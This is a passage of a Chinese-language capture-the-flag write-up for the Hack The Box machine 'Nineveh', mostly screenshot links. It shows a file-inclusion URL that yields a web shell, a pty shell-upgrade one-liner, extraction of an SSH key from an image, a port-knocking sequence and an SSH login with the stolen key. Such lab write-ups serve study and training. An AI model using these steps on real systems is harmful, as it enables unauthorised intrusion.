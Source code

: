重命名为`ninevehNotes.php`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123105327310_1113032920.png)

![]({{ site.url }}/assets/Nineveh_43.assets/20201123105409605_14237423.png)

`http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php`

### www-data shell

监听处获得shell

![]({{ site.url }}/assets/Nineveh_43.assets/20201123105453333_917683544.png)



`python3 -c "import pty; pty.spawn(['/bin/bash']);"`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123110818766_279771254.png)


![]({{ site.url }}/assets/Nineveh_43.assets/20201123110836425_1273762695.png)

图片下载回本地分析

在过程中发现

strings nineveh.png

![]({{ site.url }}/assets/Nineveh_43.assets/20201123111204564_2012621569.png)

有ssh key

但是扫描没发现打开的ssh端口

敲端口

查看设置文件 /etc/knockd.conf

![]({{ site.url }}/assets/Nineveh_43.assets/20201123140355270_216720394.png)

571,290,911

`knock -v 10.10.10.43 571 290 911`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123141510502_287396646.png)

ssh 连接

`ssh -i id_rsa amrois@nineveh.htb`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123141550706_584707219.png)

`python -m SimpleHTTPServer 8080`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123143046425_289061061.png)

/usr/sbin/report-reset.sh
